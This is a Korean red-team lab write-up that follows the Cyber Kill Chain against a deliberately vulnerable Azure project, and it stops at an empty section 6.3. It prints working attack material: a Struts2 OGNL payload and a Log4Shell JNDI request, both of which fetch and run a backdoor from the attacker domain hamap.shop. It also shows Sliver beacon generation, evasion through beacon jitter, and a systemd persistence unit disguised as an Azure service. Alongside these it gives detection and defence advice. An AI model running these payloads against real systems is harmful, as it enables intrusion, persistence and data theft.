

## 목차

- [0. 공격 시나리오 개요](#0-공격-시나리오-개요)
  - [0.1. 작전 배경 및 개요](#01-작전-배경-및-개요)
  - [0.2. 수행 목적](#02-수행-목적)
  - [0.3. 타겟 시스템 아키텍처 및 공격 경로](#03-타겟-시스템-아키텍처-및-공격-경로)
  - [0.4. 핵심 발견사항 및 비즈니스 영향](#04-핵심-발견사항-및-비즈니스-영향)
  - [0.5. 공격 도구 및 TTPs (Tools, Tactics, and Procedures)](#05-공격-도구-및-ttps-tools-tactics-and-procedures)
- [1. 정찰](#1-정찰)
  - [1.1. 서비스 열거 및 핑거프린팅](#11-서비스-열거-및-핑거프린팅)
  - [1.2. 웹 경로 분석 및 추가 공격 벡터 식별](#12-웹-경로-분석-및-추가-공격-벡터-식별)
  - [1.3. 최종 공격 벡터 선정 및 전략 수립](#13-최종-공격-벡터-선정-및-전략-수립)
- [2. 무기화](#2-무기화)
  - [2.1. C2 페이로드 제작 및 스테이징](#21-c2-페이로드-제작-및-스테이징)
  - [2.2. 익스플로잇 체인 구축](#22-익스플로잇-체인-구축)
- [3. 유포](#3-유포)
  - [3.1. Apache Struts2 악성 OGNL 구문 전송](#31-apache-struts2-악성-ognl-구문-전송)
  - [3.2. 유포 성공 검증](#32-유포-성공-검증)
  - [3.3. 탐지 및 방어 전략](#33-탐지-및-방어-전략)
- [4. 악용](#4-악용)
  - [4.1. RCE 실행 및 리버스 셸 세션 수립](#41-rce-실행-및-리버스-셸-세션-수립)
  - [4.2. 초기 권한 및 환경 분석](#42-초기-권한-및-환경-분석)
  - [4.3. 탐지 및 방어 전략](#43-탐지-및-방어-전략)
- [5. 설치](#5-설치)
  - [5.1. 컨테이너에서 호스트로의 페이로드 전이 및 은닉](#51-컨테이너에서-호스트로의-페이로드-전이-및-은닉)
  - [5.2. Systemd 서비스를 이용한 영구 지속성 확보](#52-systemd-서비스를-이용한-영구-지속성-확보)
  - [5.3. 탐지 및 방어 전략](#53-탐지-및-방어-전략)
- [6. 명령 및 제어](#6-명령-및-제어)
  - [6.1. mTLS 기반의 보안 채널 수립](#61-mtls-기반의-보안-채널-수립)
  - [6.2. 하트비트 설정 및 지터 적용](#62-하트비트-설정-및-지터-적용)
  - [6.3. 연결 상태 검증](#63-연결-상태-검증)
  - [6.4. 탐지 및 방어 전략](#64-탐지-및-방어-전략)
- [7. 목적 달성](#7-목적-달성)
  - [7.1. 1단계: 내부 정찰 및 타겟 식별](#71-1단계-내부-정찰-및-타겟-식별)
  - [7.2. 2단계: 자격 증명 탈취 및 수평 이동](#72-2단계-자격-증명-탈취-및-수평-이동)
  - [7.3. 3단계: 핵심 데이터 수집 및 유출](#73-3단계-핵심-데이터-수집-및-유출)
  - [7.4. 탐지 및 방어 전략](#74-탐지-및-방어-전략)
- [8. 종합 분석 및 권고 사항](#8-종합-분석-및-권고-사항)
  - [8.1. 종합 위협 분석](#81-종합-위협-분석)
  - [8.2. Kill Chain 단계별 방어 실패 분석](#82-kill-chain-단계별-방어-실패-분석)
  - [8.3. 보안 강화 로드맵](#83-보안-강화-로드맵)
  - [8.4. 기술적 세부 권고](#84-기술적-세부-권고)
  - [8.5. 결론](#85-결론)

---

## 0. 공격 시나리오 개요

### 0.1. 작전 배경 및 개요
본 공격 시나리오는 외부의 위협 행위자가 인터넷에 공개된 기업의 웹 애플리케이션을 통해 내부 시스템으로 침투하는 가장 전형적이면서도 파괴적인 공격을 재현한다.

본 작전의 핵심은 **패치되지 않은 레거시 애플리케이션(Struts2, Log4j 등)**이 기업의 다층 방어 아키텍처에 어떤 균열을 만들 수 있는지, 그리고 **최소 권한 원칙**을 위반한 컨테이너 설정이 어떻게 공격의 피해를 증폭시키는지를 실증하는 데 있다.

### 0.2. 수행 목적
본 시나리오는 다음의 핵심 보안 가설을 검증한다.

1.  **경계 방어 유효성 검증:** 로드 밸런서와 NSG로 구성된 외부 경계 방어 체계가 알려진 치명적 취약점(CVE) 공격 트래픽을 탐지 및 차단할 수 있는가?
2.  **공급망 위험도 평가:** SBOM 관리 부재 시, 오래된 Docker 이미지(`elasticsearch:1.7.6` 등)가 어떻게 내부망 침투의 직접적인 경로가 되는가?
3.  **컨테이너 보안 태세 진단:** Docker 컨테이너 내부의 애플리케이션이 `root` 권한으로 실행될 경우, 공격자가 권한 상승 없이 즉시 시스템 전체를 장악할 수 있는가?

### 0.3. 타겟 시스템 아키텍처 및 공격 경로
`CKCProject` 인프라는 로드 밸런서를 통해 외부 트래픽을 DMZ Subnet의 웹 서버(VMSS)로 전달하며, 이 VM 위에서 다수의 취약한 Docker 컨테이너가 서비스되고 있다.

*   **Public IP (로드 밸런서):** `20.214.x.x`
*   **웹 계층 (DMZ Subnet):** `10.42.2.0/24` (VMSS Host)
    *   **Docker Containers:** `struts2-rce`, `log4shell-app`, `elasticsearch-rce` 등
*   **DB 계층 (Private Subnet):** `10.42.3.0/24` (최종 공격 목표)



> 🟠 공격자 · 🔵 취약 컨테이너 · 🟣 C2 서버

```mermaid
sequenceDiagram
    actor A as 🕵️ Attacker
    participant W as 🖥️ Web
    participant C as 📡 C2
    participant D as 🗄️ DB

    rect rgb(60, 30, 30)
        Note over A,W: Initial Access
        A->>W: RCE Exploit (OGNL/JNDI)
        W-->>C: 리버스 셸 연결
    end

    rect rgb(30, 30, 60)
        Note over W,D: Post-Exploitation
        C->>W: C2 Session 수립
        W->>W: Persistence (Systemd)
        W->>D: 내부망 스캔 및 접근
    end

    rect rgb(50, 20, 50)
        Note over W,C: Exfiltration
        D-->>W: 데이터 수집
        W-->>C: 데이터 유출 (mTLS)
    end
```




### 0.4. 핵심 발견사항 및 비즈니스 영향

| 핵심 발견사항 | 근본 원인 | 비즈니스 영향 |
| :--- | :--- | :--- |
| **1. 방치된 오픈소스 취약점(RCE)이 외부 침투의 관문 역할** | SBOM(소프트웨어 자재 명세서) 부재 및 자동화된 패치 관리 프로세스 실패 | **[규정준수/재무]** 수년 전 공개된 CVE 방치로 인한 컴플라이언스 위반. 예방 가능한 위협으로 인한 침해 사고 발생 시, 막대한 복구 비용 및 과징금 발생. |
| **2. 컨테이너의 `root` 권한 실행으로 인한 피해 확산** | 컨테이너 빌드/배포 시 최소 권한 원칙 위반 | **[운영]** 단순 '웹 애플리케이션 침해'가 즉시 **'서버 인프라 전체 장악'**으로 격상됨. 공격자의 잠복 및 내부 확산 활동을 위한 완벽한 교두보 제공. |
| **3. 내부망 신뢰 기반의 평면적 네트워크 구조** | 내부 통신(East-West)에 대한 제로 트러스트 원칙 부재 및 네트워크 세그멘테이션 미흡 | **[데이터/신뢰도]** 경계가 뚫린 후, 내부 핵심 자산(DB)까지 도달하는 데 아무런 장애물이 없어 고객 정보 등 민감 데이터 유출로 직결. 기업 신뢰도에 치명타. |

### 0.5. 공격 도구 및 TTPs

| Kill Chain 단계 | MITRE ATT&CK 기법 | 사용 도구 / 방법 |
| :--- | :--- | :--- |
| **1. 정찰** | [T1595.001] Active Scanning | `nmap`, `gobuster`, Custom Fleet |
| **2. 무기화** | [T1587.001] Develop Capabilities | `Sliver C2`, Python Script, `Marshalsec` |
| **3. 유포** | [T1190] Exploit Public-Facing App | `curl`, OGNL/JNDI Payloads |
| **4. 악용** | [T1059.004] Unix Shell | Docker 컨테이너 내 RCE 실행 |
| **5. 설치** | [T1543.002] Systemd Service | `wget`, Systemd 서비스 등록 |
| **6. 명령 및 제어** | [T1573.002] Encrypted Channel | Sliver mTLS Beacon |
| **7. 목적 달성** | [T1041] Exfiltration Over C2 | `mysql`, `mysqldump`, Sliver Upload |

---

## 1. 정찰
**목표:** 타겟의 유일한 진입점인 로드 밸런서의 공개 IP를 대상으로 능동적 스캔을 수행하여, 외부에 노출된 서비스들의 종류와 버전을 식별하고 즉시 악용 가능한 공격 표면을 매핑한다.

*   **[T1595.001] Active Scanning:** IP 블록 및 취약점 스캔.
*   **[T1592] Gather Victim Host Information:** 소프트웨어 버전 및 구성 정보 수집.

### 1.1. 분산 포트 스캐닝
실제 공격에서 단일 IP로 스캔하면 WAF/IPS에 의해 즉시 차단될 위험이 높다. 이를 회피하기 위해 [프로젝트 개요](./2025-12-27-CKC-Project-Overview.html)에서 구축한 **Custom Distributed Scanner Fleet**을 활용하여 분산 스캐닝을 수행했다.

```bash
# 1. Scanner Fleet 확인 (20대)
fleet list

# 2. 타겟 설정 (변수 확인)
echo $LOAD_BALANCER_IP

# 3. 분산 스캐닝 실행 (취약점 스캔 프로파일)
fleet scan_port $TARGET_LB vuln

# 4. 결과 수집 및 병합
fleet collect
cat ~/loot/scans/merged_scan_results.txt | grep -E "portid|service name"
```


### 1.2. 서비스 식별 및 핑거프린팅
수집된 포트 스캔 결과 중, 의심스러운 포트를 대상으로 `curl` 명령어를 통해 HTTP 헤더 정보를 확인하는 간단한 핑거프린팅을 수행했다. 그 결과, Apache Struts2 등 취약한 레거시 애플리케이션의 흔적을 식별할 수 있었다.


**[위협 분석 및 우선순위 선정]**
스캔 결과, 다수의 고위험 컨테이너 서비스가 식별되었다. 공격 성공 가능성과 예상 피해 규모를 고려하여 침투 우선순위를 다음과 같이 결정했다.

| 우선순위 | 포트 | 서비스 / 컨테이너 | 위협 분석 |
| :--- | :--- | :--- | :--- |
| **P1 (고위험)** | **8081** | **struts2-rce** | `piesecurity/apache-struts2-cve-2017-5638` 이미지 기반. 인증 없이 RCE가 가능한 **CVE-2017-5638**에 노출되어 있음. |
| **P1 (고위험)** | **8083** | **log4shell-app** | `ghcr.io/christophetd/log4shell-vulnerable-app` 이미지 기반. **CVE-2021-44228 (Log4Shell)** JNDI Injection 공격에 취약함. |
| **P2 (High)** | **9200** | **elasticsearch-rce** | `elasticsearch:1.7.6` 이미지 기반. 인증 없는 구버전으로 **CVE-2014-3120 (RCE)** 또는 최소한 내부 데이터 무단 열람이 가능. |
| **P2 (High)** | **8082** | **jboss-rce** | `jboss/wildfly:10.1.0.Final` 이미지 기반. Java 역직렬화 RCE 취약점(**CVE-2017-12149**)에 노출. |
| **P3 (Medium)**| **5000**| **Flask API** | `ping` 파라미터에 **Command Injection** 취약점이 존재. |

**[종합 정찰 결론]**
공격 표면에는 다수의 RCE 경로가 존재했다. 그중에서도 **Apache Struts2 (8081)**와 **Log4Shell (8083)** 취약점은 복잡한 상호작용 없이 단일 HTTP 요청만으로 코드 실행이 가능하여 가장 빠르고 효율적인 침투 경로로 판단되었다. 이에 따라 해당 두 취약점을 이용한 익스플로잇을 최우선으로 수행하기로 전략을 수립했다.

### 1.3. 웹 경로 분석 및 추가 공격 벡터 식별
`nmap` 스캔을 통해 식별된 고위험 RCE 취약점 외에도, 80번 포트의 표준 웹 서비스(Apache)에 숨겨진 위협이 있는지 확인하기 위해 `gobuster`를 사용하여 디렉터리 및 파일 열거를 수행했다.

```bash
# robots.txt 먼저 확인 (숨겨진 경로 힌트 획득)
curl http://$LOAD_BALANCER_IP/robots.txt

# gobuster를 통한 디렉터리 열거
gobuster dir -u http://$LOAD_BALANCER_IP/ -w /usr/share/wordlists/dirb/common.txt -x php,html,txt -t 50
```


**[robots.txt 분석: 숨겨진 경로 발견]**
```
User-agent: *
Disallow: /admin/
Disallow: /backup/
Disallow: /api/config/
# Note: Old backup at /backup/db_dump_2024.sql
```
관리자가 의도적으로 숨기려 한 경로들이 노출되었다. 특히 `/backup/db_dump_2024.sql` 주석은 **중요 정보 유출 가능성**을 시사한다.

**[발견 사항: 백업 파일에서 내부 정보 유출]**
`robots.txt`에서 발견된 힌트를 즉시 추적했다.

```bash
curl http://$LOAD_BALANCER_IP/backup/db_dump_2024.sql
```


백업 파일에서 다음 정보가 노출되었다:
- **DB 자격 증명:** `root / root`
- **내부 DB 서버:** `10.42.3.4:3306`
- **Redis (No Auth):** `10.42.3.4:6379`

이 정보는 향후 내부 피보팅(Legacy Service Pivot 시나리오)에 활용될 수 있다.

**[gobuster를 통한 추가 경로 열거]**
`robots.txt` 외에도 숨겨진 경로가 있는지 확인하기 위해 `gobuster`로 디렉터리 열거를 수행했다.


**[주요 발견 경로 분석]**

| 경로 | 상태 코드 | 위험도 | 취약점 유형 | OWASP 2025 |
| :--- | :--- | :--- | :--- | :--- |
| **/admin/** | 301 | High | 관리자 페이지 노출 | A01:Access Control |
| **/api/** | 301 | High | API 엔드포인트 노출 | A02:Misconfiguration |
| **/backup/** | 301 | Critical | 백업 파일 노출 | A02:Misconfiguration |
| **/login/** | 301 | Medium | 로그인 페이지 노출 | A07:Identification |
| **/upload/** | 301 | High | 무제한 파일 업로드 | A06:Insecure Design |
| **/server-status** | 403 | Low | 서버 상태 정보 | A05:Injection |
| **/.htpasswd** | 403 | Critical | 자격 증명 파일 | A02:Misconfiguration |

### 1.4. 최종 공격 벡터 선정 및 전략 수립
공격 표면 분석 결과, LFI, SQLi, 파일 업로드 등 다수의 공격 경로가 존재함을 확인했다. 그러나 이러한 웹 취약점들은 웹 셸을 업로드하고, 권한을 확인하며, 안정적인 셸을 획득하기까지 여러 단계의 후속 작업이 필요하다.

반면, **Apache Struts2 (8081)**와 **Log4Shell (8083)** 취약점은 복잡한 상호작용 없이 단일 HTTP 요청만으로 즉시 `root` 권한의 셸을 획득할 수 있어 가장 빠르고 확실한 침투 경로로 판단되었다. 따라서 다른 웹 취약점들에 대한 공격은 **의도적으로 후순위로 미루고**, 해당 두 개의 치명적 CVE를 최우선 공략 대상으로 선정하여 작전의 효율성을 극대화했다.

---

## 2. 무기화
**목표:** 정찰 단계에서 식별된 고위험 RCE 취약점(Struts2, Log4Shell)을 공략하기 위해, 공격자의 C2 인프라(`hamap.shop`)와 연동되는 맞춤형 악성 페이로드를 제작하고, 이를 타겟 컨테이너가 스스로 다운로드하도록 유도하는 **다단계 공격 체인**을 구축한다.

*   **[T1588.002] Obtain Capabilities: Tool:** 공격 도구 및 페이로드 제작.
*   **[T1608.001] Stage Capabilities: Upload Malware:** 악성 코드를 외부 인프라에 배치.

### 2.1. C2 페이로드 제작 및 스테이징
**전략:** 공격자의 실제 IP 노출을 방지하고, 악성 코드 다운로드 트래픽을 정상적인 웹 트래픽으로 위장하기 위해 **도메인 기반의 스테이징 전략**을 채택했다.

1.  **C2 비콘 임플란트 제작:**
    `Sliver` C2 프레임워크를 사용하여 mTLS 기반의 암호화된 비콘 임플란트를 제작했다. Sliver는 Go 언어로 작성되어 크로스 플랫폼 호환성이 뛰어나며, mTLS 통신으로 네트워크 보안 장비의 탐지를 회피할 수 있다.

    ```bash
    # Sliver C2 콘솔
    sliver > generate beacon --mtls hamap.shop:8888 --os linux --arch amd64 --save /var/www/html/payloads/backdoor
    
    [*] Generating new linux/amd64 beacon implant binary
    [*] Build completed in 32s
    [*] Implant saved to /var/www/html/payloads/backdoor
    ```

    
    

    2.  **스테이징:**
    제작된 페이로드는 `scp`를 이용해 Azure C2 서버로 안전하게 전송되었으며, Nginx 웹 서버 루트(`/var/www/html/payloads`)에 배치하여 `http://hamap.shop/payloads/backdoor` 주소로 다운로드할 수 있도록 무기화했다.

    
    

### 2.2. 익스플로잇 체인 구축
**① Apache Struts2 (CVE-2017-5638) 공격 체인:**
Struts2의 Jakarta Multipart 파서가 `Content-Type` 헤더를 처리할 때 발생하는 OGNL 인젝션 취약점을 이용했다. Python 스크립트는 다음과 같은 논리를 가진 OGNL 페이로드를 생성하여 전송한다.

*   **Java `ProcessBuilder` 악용:** 컨테이너 내부의 셸(`/bin/bash`)에 접근하도록 설계.
*   **명령어 주입:** `wget`을 통해 C2 페이로드를 다운로드하고 실행하는 명령어를 주입하여, 리버스 셸 연결이 자동으로 수립되도록 페이로드를 구성했다.

**② Log4Shell (CVE-2021-44228) 인프라 구축:**
Log4j 취약점은 JNDI Lookup 기능을 악용하므로, **LDAP 서버**와 **HTTP 서버**가 연계된 인프라가 필수적이다. 이를 위해 C2 서버에서 두 개의 리스너를 구동했다.

1.  **LDAP Redirector (Marshalsec, Port 1389):** 타겟의 JNDI 요청을 수신하면, 실제 악성 코드가 위치한 HTTP 서버로 리다이렉트하는 '교통 정리' 역할을 수행한다.
2.  **Payload Hosting (Python HTTP, Port 8000):** 실제 악성 Java 클래스(`Exploit.class`)와 2차 페이로드(`backdoor`)를 서빙한다.


이 구성은 방화벽 정책을 우회하고 공격 단계를 분리하여 성공률을 높이기 위한 전술적 선택이다.

---

## 3. 유포
**목표:** 무기화된 악성 페이로드 및 익스플로잇 코드를 타겟 컨테이너의 애플리케이션에 전달하여, 보안 장비의 탐지를 회피하고 타겟이 공격자의 C2 인프라로부터 악성 코드를 스스로 반입하도록 유도한다.

*   **[T1190] Exploit Public-Facing Application:** 외부 공개 애플리케이션의 취약점 악용.
*   **[T1105] Ingress Tool Transfer:** 타겟이 스스로 악성 도구를 다운로드하게 유도.

### 3.1. Apache Struts2 악성 OGNL 구문 전송
**사전 점검:** 공격 전, 타겟 서비스의 가용성을 확인했다.


**공격 벡터:**
Apache Struts2 프레임워크가 HTTP `Content-Type` 헤더를 파싱하는 과정에서 발생하는 OGNL 인젝션 취약점을 이용했다. 공격자는 다음과 같은 악성 OGNL 구문을 `Content-Type` 헤더에 삽입하여 전송했다.

```java
// [Injected OGNL Payload]
// 1. 보안 검사 우회 (Static Method Access 허용)
(#_memberAccess['allowStaticMethodAccess']=true).

// 2. 시스템 명령 실행 (Command Injection)
(java.lang.Runtime.getRuntime().exec('wget http://hamap.shop/payloads/backdoor -O /tmp/backdoor; chmod +x /tmp/backdoor; /tmp/backdoor &'))
```


**[실행 결과 분석: Blind RCE 확인]**
Python 익스플로잇 스크립트 실행 후, 콘솔에 `Connection broken: InvalidChunkLength` 오류가 출력되었다. 이는 공격 실패가 아니라, 오히려 **공격 성공을 암시하는 긍정적 신호**이다. 주입된 페이로드(`wget...`)가 타겟 컨테이너 내부에서 실행되는 동안 웹 서버 스레드가 응답을 정상적으로 처리하지 못하기 때문에 발생하는 현상으로, 에러가 발생한 시점에 타겟은 이미 C2 서버의 페이로드를 다운로드하고 실행 중인 상태이다.

### 3.2. 유포 성공 검증
**공격 벡터:**
Log4j 라이브러리의 JNDI Lookup 기능을 악용하여, 공격자가 제어하는 LDAP 서버로 강제 연결을 유도했다. 로그가 기록될 확률이 높은 HTTP 헤더(`User-Agent`, `X-Api-Version` 등)에 악성 JNDI 구문을 삽입하여 `curl` 요청을 전송했다.

```bash
# 공격자 C2 인프라(LDAP/HTTP)로 유도하는 JNDI 구문 전송
curl -H 'X-Api-Version: ${jndi:ldap://hamap.shop:8888/Exploit}' http://$LOAD_BALANCER_IP:8083/
```


**[공격 인프라 로그 분석: 유포 성공 검증]**
공격 패킷 전송 직후, Azure C2 서버의 로그를 통해 타겟이 공격에 반응했음을 확인했다.

1.  **LDAP Request (Marshalsec Log):** 타겟 IP가 LDAP 서버(1389)에 쿼리를 전송했고, 서버는 이를 악성 Java 클래스가 위치한 HTTP 경로로 리다이렉트했다.
2.  **Payload Download (Python HTTP Log):** 리다이렉트 직후, 타겟이 공격자의 웹 서버(8000)에 접속하여 `Exploit.class` 파일을 성공적으로 다운로드(GET 요청, 상태 코드 200)했다.

이 로그는 방화벽 내부의 타겟이 **아웃바운드 통신을 시도**했으며, 악성 코드가 메모리 상으로 반입되었음을 확인할 수 있다.

### 3.3. 탐지 및 방어 전략
*   **웹 애플리케이션 방화벽 (WAF) 시그니처:**
    *   **OGNL Injection:** `Content-Type` 헤더에 `ognl`, `memberAccess`, `ProcessBuilder`와 같은 키워드가 포함된 요청을 차단해야 한다.
    *   **JNDI Injection:** `${jndi:ldap://`, `${jndi:rmi://`와 같은 패턴이 포함된 모든 헤더 및 파라미터를 정규식으로 탐지하고 차단해야 한다.
*   **아웃바운드 필터링:**
    *   **문제점:** 공격 성공의 가장 결정적인 요인은 **아웃바운드 트래픽에 대한 통제 부재**였다. 컨테이너 내부에서 인터넷 상의 임의의 IP/포트로 자유롭게 접속 가능한 환경이 리버스 셸 연결의 근본 원인이다.
    *   **해결책:** Azure Firewall 또는 NSG를 활용하여, OS 업데이트 저장소나 허가된 API 등 **업무에 필수적인 도메인/IP 외의 모든 아웃바운드 트래픽을 기본 차단**해야 한다.

---

## 4. 악용
**목표:** 전달된 악성 코드를 트리거하여 대상 **컨테이너 내부**에서 코드를 실행하고, 공격자의 C2 서버와 명령 제어 채널을 수립하여 **초기 접근** 권한을 획득한다.

*   **[T1210] Exploitation of Remote Services:** 원격 서비스의 취약점을 이용한 코드 실행.
*   **[T1059.004] Command and Scripting Interpreter: Unix Shell:** 페이로드에 포함된 셸 커맨드 실행.

### 4.1. RCE 실행 및 리버스 셸 세션 수립
3단계에서 주입된 명령어가 타겟 애플리케이션에 의해 처리되는 순간, `wget`으로 다운로드된 Sliver 비콘 임플란트가 실행되어 공격자의 C2 서버(`hamap.shop`)로 **역접속**을 시도했다. 공격자 C2 서버의 Sliver mTLS 리스너에 암호화된 연결이 수립되며, 완전한 원격 제어권이 확보되었다.

```bash
# Sliver C2 콘솔 (공격자 측)
[*] Session 1a2b3c4d struts2-container - 10.42.2.4:49152 (web-vmss-01) - linux/amd64

sliver > sessions

 ID          Transport   Remote Address       Hostname           Username   OS
==========  =========== ==================== ================== ========== =====
 1a2b3c4d    mtls        10.42.2.4:49152       struts2-container  root       linux
```


**Log4Shell 공격을 통한 추가 세션 획득:**
동일한 방식으로 Log4Shell 취약점을 통해 `log4shell-app` 컨테이너에서도 세션을 획득했다.


### 4.2. 초기 권한 및 환경 분석
연결 수립 직후, 획득한 셸의 권한과 실행 환경을 파악하여 두 가지 치명적인 보안 결함을 식별했다.

```bash
/ # id
uid=0(root) gid=0(root) groups=0(root)

/ # hostname
c7a2b1d4e3f8  # <-- Docker Container ID

/ # cat /proc/1/cgroup
1:name=systemd:/docker/c7a2b1d4e3f8...
```

1.  **최고 권한 탈취:**
    *   **발견:** `id` 명령 결과 **`uid=0(root)`**가 확인되었다. Docker 컨테이너가 별도의 사용자 지정 없이 **기본값(`root`)으로 실행**되었기 때문이다.
    *   **영향:** 공격자는 별도의 권한 상승 공격 없이도 즉시 **컨테이너 내부의 모든 파일 시스템 제어권**을 확보했다. 이는 컨테이너 탈출 및 호스트 장악을 위한 발판이 된다.

2.  **컨테이너 환경 식별:**
    *   **발견:** 무작위 16진수 형태의 `hostname`과 `/proc/1/cgroup`의 내용을 통해, 현재 셸이 VM 호스트가 아닌 **`struts2-rce` Docker 컨테이너** 내부임을 명확히 인지했다.
    *   **영향:** 다음 단계의 목표는 이 고립된 컨테이너 환경을 벗어나 **기반 호스트 VM**의 제어권을 탈취하는 것으로 설정되었다.

### 4.3. 탐지 및 방어 전략
*   **컨테이너 런타임 보안:**
    *   **탐지 포인트:** `java` 프로세스가 자식 프로세스로 `wget`, `curl`, `bash`와 같은 셸 명령어를 실행하는 것은 악성 행위로 간주할 수 있다. Falco, Aqua Security와 같은 런타임 보안 도구는 이러한 비정상적인 프로세스 계보를 실시간으로 탐지하고 컨테이너를 즉시 격리/종료할 수 있다.
    *   **최소 권한 원칙:** Dockerfile 내에 `USER 1000`과 같이 **비특권 사용자(non-root user)**를 명시하여, 애플리케이션이 해킹되더라도 컨테이너 내부에서의 피해를 최소화하고, 호스트로의 권한 상승을 더욱 어렵게 만들어야 한다.

---

## 5. 설치
**목표:** 일시적이고 불안정한 컨테이너 내부의 셸을 넘어, 시스템 재부팅이나 컨테이너 삭제에도 생존할 수 있는 **영구적인 거점**을 **호스트 VM**에 구축한다. 이 단계의 핵심은 **탐지 회피**와 **지속성**이다.

*   **[T1053.003] Scheduled Task/Job: Cron:** (초기) 작업을 스케줄링하여 악성 코드 실행.
*   **[T1543.002] Create or Modify System Process: Systemd Service:** (고급) 시스템 서비스를 이용한 은밀하고 안정적인 지속성 확보.
*   **[T1036.005] Masquerading: Match Legitimate Name:** 시스템 파일로 위장하여 관리자의 육안 검사 회피.

### 5.1. 컨테이너에서 호스트로의 페이로드 전이 및 은닉
컨테이너 내부에서 호스트 파일 시스템에 직접 쓰기 작업을 수행하기 위해서는 특별한 조건이 필요하다. Docker 컨테이너 실행 시 별도의 보안 옵션이 지정되지 않아 컨테이너가 사실상 **특권 모드에 가깝게 동작**하며, 컨테이너 내부의 `root` 사용자가 호스트의 파일 시스템에 접근할 수 있는 심각한 보안 허점이 존재했다.

컨테이너 내부의 `crontab`은 컨테이너가 재배포되면 사라지므로 무의미하다. 진정한 지속성을 위해서는 공격의 발판을 컨테이너가 실행 중인 **기반 호스트 VM**으로 옮겨야 했다.

1.  **2차 C2 임플란트 제작 (Sliver):**
    초기 침투에 사용된 `netcat` 셸은 기능이 제한적이고 트래픽이 암호화되지 않는다. `Sliver` C2로 **mTLS 기반의 암호화된 비콘**을 제작했다.

2.  **호스트로 페이로드 전이 및 위장:**
    공격자는 초기 셸을 통해 `wget` 명령을 다시 사용하여, 이번에는 페이로드를 컨테이너가 아닌 호스트 VM의 공유 디렉터리(`/tmp`)에 다운로드했다. 그 후, 파일을 시스템 바이너리가 위치하는 `/usr/local/bin/`으로 이동시키고 실행 권한을 부여했다.

    ```bash
    wget http://hamap.shop/kupdate_service -O /tmp/kupdate_service
    mv /tmp/kupdate_service /usr/local/bin/
    chmod +x /usr/local/bin/kupdate_service
    ```

### 5.2. Systemd 서비스를 이용한 영구 지속성 확보
`crontab`은 고전적이고 로그가 남기 쉬워 EDR에 쉽게 탐지된다.


반면, `systemd` 서비스는 정상적인 서비스와 구분하기 어렵다. 다음과 같이 악성 `systemd` 서비스를 생성했다.

```bash
cat > /etc/systemd/system/azure-network-observer.service << EOF
[Unit]
Description=Azure Network Performance Observer
After=network.target

[Service]
ExecStart=/usr/local/bin/kupdate_service
Restart=always
User=root

[Install]
WantedBy=multi-user.target
EOF

systemctl daemon-reload
systemctl enable azure-network-observer.service
systemctl start azure-network-observer.service
```

**분석:**
*   **위장:** 서비스 이름(`azure-network-observer`)과 설명(`Azure Network Performance Observer`)을 마치 정상적인 Azure 관리 에이전트인 것처럼 위장했다.
*   **지속성:** `Restart=always`와 `enable` 설정을 통해, 프로세스가 강제 종료되거나 시스템이 재부팅되더라도 서비스가 자동으로 재시작되어 C2 연결이 복구된다.

### 5.3. 탐지 및 방어 전략
*   **파일 무결성 모니터링 (FIM):**
    *   `/etc/systemd/system/` 또는 `/usr/lib/systemd/system/` 디렉터리에 새로운 서비스 유닛 파일이 생성되거나 기존 파일이 변경되는 것을 실시간으로 탐지하고 경고해야 한다.
*   **프로세스 이상 징후 탐지:**
    *   이름은 `azure-network-observer`이지만, 부모 프로세스가 `systemd`이고, 실행 파일의 해시가 알려진 정상 파일과 다르며, 외부와 지속적인 TCP 연결을 맺는 행위를 EDR이 탐지해야 한다.

---

## 6. 명령 및 제어
**목표:** 5단계에서 설치된 영구 백도어(`kupdate_service`)와 외부 C2 서버(`hamap.shop`) 간에 **탐지가 어려운 암호화된 통신 채널**을 수립하고, 이를 통해 후속 공격을 수행할 수 있는 완전한 원격 제어권을 확보한다.

*   **[T1071.001] Application Layer Protocol: Web Protocols (HTTPS):** C2 트래픽을 정상적인 웹 트래픽으로 위장.
*   **[T1573.002] Encrypted Channel: Asymmetric Cryptography:** mTLS를 이용한 양방향 암호화로 패킷 감청 무력화.
*   **[T1102.002] Web Service:** 합법적인 외부 서비스를 C2 통신에 활용.

### 6.1. mTLS 기반의 보안 채널 수립
`systemd`에 의해 실행된 `kupdate_service` 임플란트는 즉시 공격자의 C2 서버로 **아웃바운드 콜백**을 시도했다. 이 통신은 TCP 443 포트를 사용하며, 모든 데이터는 mTLS로 암호화되어 있어 네트워크 경계의 보안 장비(Firewall, IPS)는 이를 일반적인 HTTPS 트래픽으로 인식하고 통과시킨다.

```bash
# Sliver C2 서버 콘솔 (공격자 측)
# 호스트 VM으로부터 새로운 비콘 세션이 수신됨

[*] Session 6f7g8h9i web-vmss-instance-01 - 10.42.2.4:49152 (web-vmss-01) - linux/amd64 - Tue, 25 Nov 2025 18:10:01 KST

sliver > sessions

 ID          Transport   Remote Address       Hostname              Username   Operating System   Last Check-in
==========  =========== ==================== ===================== ========== ================== ===============
 6f7g8h9i    mtls        10.42.2.4:49152       web-vmss-instance-01  root       linux/amd64        2s ago
```

*   **Username `root`:** C2 세션이 컨테이너의 서비스 계정이 아닌, **호스트 VM의 `root` 권한**으로 수립되었음을 보여준다.
*   **Transport `mtls`:** 모든 명령과 데이터는 복호화가 불가능하여, 방어팀의 네트워크 포렌식을 극도로 어렵게 만든다.


### 6.2. 하트비트 설정 및 지터 적용
고정된 주기로 통신하는 '하트비트'는 NTA 솔루션에 쉽게 탐지된다. 이를 회피하기 위해 C2 임플란트에 **30%의 Jitter**를 설정하여, 실제 통신이 비정형적인 간격으로 발생하도록 했다.

```bash
sliver > use 6f7g8h9i
[server] sliver (web-vmss-instance-01) > reconfig -beacon-interval 60s -beacon-jitter 30s
```


### 6.3. 연결 상태 검증
